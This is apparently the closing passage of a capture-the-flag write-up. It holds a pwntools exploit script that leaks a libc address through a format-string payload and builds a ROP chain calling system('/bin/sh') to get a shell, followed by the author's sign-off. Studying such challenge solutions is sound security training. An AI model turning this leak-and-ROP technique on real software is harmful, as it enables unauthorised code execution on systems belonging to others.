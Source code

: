 ```py

gdbscript = '''
    b* select_station+104
    c
'''.format(**locals())

# Useful macros
def sl(a): return r.sendline(a)
def s(a): return r.send(a)
def sa(a, b): return r.sendafter(a, b)
def sla(a, b): return r.sendlineafter(a, b)
def re(a): return r.recv(a)
def ru(a): return r.recvuntil(a)
def rl(): return r.recvline()
def i(): return r.interactive()
eof = chr(tty.CEOF)


r = start()

# send the payload to generate the libc leak 
sl(b"14927-%p-")
ru(b"-")
libc.address = int(ru(b"-")[:-1], 16) - 0x1ed723


# get the address of the pop rdi gadget from the offset we got earlier 
prdi = libc.address + 0x0000000000023b6a

# get the address of the ret gadget 
ret = libc.address + 0x0000000000022679

# send the payload as we had seen above, to overwrite rip, replace rdi with "/bin/sh", and finally call system 
sl(b"A"*(4) + p64(0x7361754569205965) + p64(0) + p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\x00"))) + p64(libc.sym.system))

r.interactive()
```

So that is the entire challenge! A unique reversing + binary exploitation to top it all off. 

If you guys have any questions about anything mentioned in the writeups, feel free to reach out to me on [X/Twitter](https://x.com/the_m3chanic_) or on Discord at `the.m3chanic`. Cheers.
